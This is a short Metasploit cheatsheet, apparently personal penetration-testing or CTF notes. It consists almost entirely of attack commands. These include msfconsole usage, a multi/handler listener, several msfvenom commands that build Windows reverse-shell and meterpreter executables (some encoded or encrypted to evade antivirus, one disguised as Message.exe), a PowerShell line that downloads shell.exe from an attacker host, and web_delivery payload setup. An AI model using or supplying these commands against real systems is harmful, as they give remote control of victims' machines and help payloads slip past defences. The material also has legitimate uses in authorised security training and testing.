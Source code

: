 # Metasploit Cheatsheet

## start metasploit

/opt/metasploit-framework/bin/msfconsole
/opt/metasploit-framework/bin/
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600


## search for exploit

search exploitname

## show what option need to be filled

show options

## set the options

set RHOSTS 10.0.0.0

## set the lhost

set LHOST 10.1.0.25

## creating netcat listener

use exploit/multi/handler
set LHOST 10.9.1.25
set LPORT 1337
exploit -j

## Creating Windows Payload

- msfvenom -p windows/shell_reverse_tcp LHOST=10.9.1.25 LPORT=9999 -e x86/shikata_ga_nai -f exe -o 9999.exe

- msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai --encrypt aes256 LHOST=10.10.168.173 LPORT=9999 -f exe -o 9999.exe

- powershell Invoke-WebRequest -Uri http://10.10.168.173:9000/shell.exe -Outfile shell.exe

- msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.9.1.25 LPORT=9999 -f exe -o 9999.exe

- msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.1.25 LPORT=8888 -f exe -o Message.exe

- msfvenom -p windows/shell_reverse_tcp LHOST=10.9.2.251 LPORT=1337 -b "\x00" -f python EXITFUNC=thread

## Creating webupload payload windows

- use exploit/multi/script/web_delivery
- set payload windows/meterpreter/reverse_tcp
- set target 2
- set LHOST 10.10.168.173
- set LPORT 9999
